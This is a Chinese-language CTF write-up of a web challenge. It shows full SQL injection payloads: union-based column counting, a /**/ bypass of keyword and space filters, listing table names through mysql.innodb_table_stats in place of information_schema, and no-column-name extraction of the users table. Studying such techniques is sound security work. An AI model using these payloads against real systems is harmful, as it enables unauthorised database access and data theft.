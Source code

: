 https://mariadb.com/kb/en/mysqlinnodb_table_stats/
`mysql.innodb_table_stats`用于报表名
`select group_concat(table_name) from mysql.innodb_table_stats`

![](https://s2.loli.net/2022/02/19/kYVTxhiwjfyEeHA.png)

注册账号登录，申请广告名为`1'`，发现有sql报错，应该是sql注入。(可能也有xss)

发布广告名时过滤了or/order/information/空格/--+/#等关键字，先尝试用union注入找到列数.

```sql
爆列数：-1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
或者：-1'/**/group/**/by/**/23,'5报错而-1'/**/group/**/by/**/22,'5正常
```

发现总列数为22，且2/3列可以回显。查看用户名和数据库类型为MariaDB

因为过滤了information_schema，此处看wp发现可以使用mysql.innodb_table_stats或者sys.schema_auto_increment_columns(不一定有)

<img src="https://s2.loli.net/2022/02/19/pILgUVYNq8eD7cR.png" style="zoom: 67%;" />

```
查询表名：-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

爆出表名ads、users-->猜测尝试在users-->**再测出users的列数为3**-->使用无列名注入方式：

可参考：https://www.jianshu.com/p/dc9af4ca2d06、https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/

```
1'/**/union/**/select/**/1,(select/**/group_concat(a)/**/from(select/**/1,2,3/**/as/**/a/**/union/**/select/**/*/**/from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
或者直接全查：
1'/**/union/**/select/**/1,(select/**/group_concat(a,b,c)/**/from(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

最后尝试`3 as a`可以爆出flag。

![](https://s2.loli.net/2022/02/19/zyRg96otXPHlnjU.png)

